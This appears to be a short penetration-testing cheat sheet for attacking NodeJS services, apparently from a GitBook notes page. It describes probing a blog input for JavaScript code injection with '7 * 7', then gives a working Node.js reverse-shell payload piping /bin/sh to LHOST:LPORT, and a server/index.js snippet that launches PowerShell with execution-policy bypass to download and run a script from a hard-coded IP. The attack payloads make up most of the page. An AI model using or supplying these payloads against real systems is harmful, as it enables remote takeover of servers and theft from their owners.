 # (3000) NodeJS

<details>

<summary>JS Code Injection</summary>

Check blog post input for JS Code Injection

Using `7 * 7`  --> if result is 49 --> Vuln&#x20;

![](<../.gitbook/assets/image (115).png>)

Run JS Rev Shell to obtain shell!

```javascript
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(LPORT, "LHOST", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
```

</details>

<details>

<summary>NodeJS server/index.js Reverse Shell</summary>

```javascript
var spawn = require("child_process").spawn, child;
child = spawn("cmd.exe", ["/c powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.45.218/runall.ps1'))", ]);
```

</details>
